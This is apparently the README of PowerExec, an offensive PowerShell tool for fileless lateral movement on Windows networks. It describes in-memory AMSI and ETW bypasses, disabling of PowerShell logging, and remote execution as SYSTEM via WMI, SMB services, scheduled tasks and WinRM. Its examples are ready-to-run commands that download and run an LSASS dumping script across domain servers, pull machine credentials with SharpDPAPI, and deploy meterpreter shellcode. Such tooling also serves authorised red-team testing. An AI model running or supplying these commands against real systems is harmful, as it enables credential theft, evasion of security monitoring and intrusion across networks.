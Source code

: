# PowerExec

PowerExec combines various bypass techniques and execution methods for fileless lateral movement.


## Functions

```
Invoke-PowerExec                -   runs PowerShell script block on remote computers through various execution methods
New-PowerLoader                 -   builds script block for in-memory execution of various payload types
```


## Payload types

The payload type must be specified within the function `New-PowerLoader`:

| Type      | Description                               |
| --------- | ----------------------------------------- |
| PoSh      | PowerShell script                         |
| NetAsm    | .NET assembly executable                  |
| Shellcode | Shellcode in binary format (experimental) |

Resulting PowerShell script block is built either from a local payload file or from a remote payload using a download cradle.


## Bypass techniques

Bypass techniques can be specified within the function `New-PowerLoader`:

| Bypass | Description                                              |
| ------ | -------------------------------------------------------- |
| AMSI   | Bypass Antimalware Scan Interface via in-memory patching |
| ETW    | Bypass Event Tracing for Windows via in-memory patching  |
| SBL    | Disable PowerShell Script Block Logging                  |
| PML    | Disable PowerShell Module Logging                        |


## Execution methods

The execution method must be specified within the function `Invoke-PowerExec`:

| Method          | Description                                                            |
| --------------- | ---------------------------------------------------------------------- |
| CimProcess      | Create process via WMI                                                 |
| CimService      | Create temporary service running as NT AUTHORITY\SYSTEM via WMI        |
| CimSubscription | Create temporary WMI event subscription (experimental)                 |
| CimTask         | Create temporary scheduled task running as NT AUTHORITY\SYSTEM via WMI |
| SmbService      | Create temporary service running as NT AUTHORITY\SYSTEM via SMB        |
| WinRM           | Run powershell via Windows Remote Management                           |

For WMI methods, the transport protocol can be chosen between DCOM and WSMAN.

The execution output is retrieved regardless of the method used.


## Examples

Run a PowerShell script through WinRM while bypassing AMSI, PowerShell Module Logging and Script Block Logging:

```
PS C:\> $payload = New-PowerLoader -Type PoSh -FileUrl 'https://raw.githubusercontent.com/tmenochet/PowerDump/master/LsassDump.ps1' -ArgumentList 'Invoke-LsassDump' -Bypass AMSI,PML,SBL
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method WinRM -ComputerDomain ADATUM.CORP -ComputerFilter Servers -Threads 10
```

Run a .NET assembly through WMI while bypassing AMSI and ETW:

```
PS C:\> $payload = New-PowerLoader -Type NetAsm -FileUrl 'https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.5_x64/SharpDPAPI.exe' -ArgumentList 'machinecredentials' -Bypass ETW,AMSI
PS C:\> Invoke-PowerExec -ScriptBlock $payload -Method CimProcess -Protocol Dcom -ComputerList 192.168.1.1,192.168.1.2
```

Run a shellcode through a service:

```
PS C:\> New-PowerLoader -Type Shellcode -FilePath .\meterpreter.bin | Invoke-PowerExec -ComputerList 192.168.1.1 -Method CimService -Protocol Dcom
```


## Credits

  * https://rastamouse.me/blog/asb-bypass-pt3/
  * https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
  * https://www.bc-security.org/post/powershell-logging-obfuscation-and-some-newish-bypasses-part-1/
  * https://blog.xpnsec.com/hiding-your-dotnet-etw
  * https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html
  * https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/

